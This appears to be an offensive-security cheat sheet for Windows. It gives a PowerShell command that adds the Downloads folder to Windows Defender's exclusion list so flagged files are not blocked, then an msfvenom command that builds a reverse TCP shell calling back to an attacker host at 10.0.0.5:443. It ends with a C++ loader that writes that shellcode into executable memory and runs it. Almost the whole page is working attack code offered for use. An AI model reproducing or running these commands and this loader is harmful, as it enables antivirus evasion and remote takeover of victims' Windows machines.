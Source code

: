 ## PowerShell Exclusion Paths:

If you want to create a trusted file, file type, folder, or a process that Windows Security has detected as malicious, you can stop Windows Security from alerting you or blocking the program by adding the file to the exclusions list. This can be done via the following PowerShell command:

```
powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath $ENV:USERPROFILE\Downloads
```

## Custom Templates for Msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

```c++
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```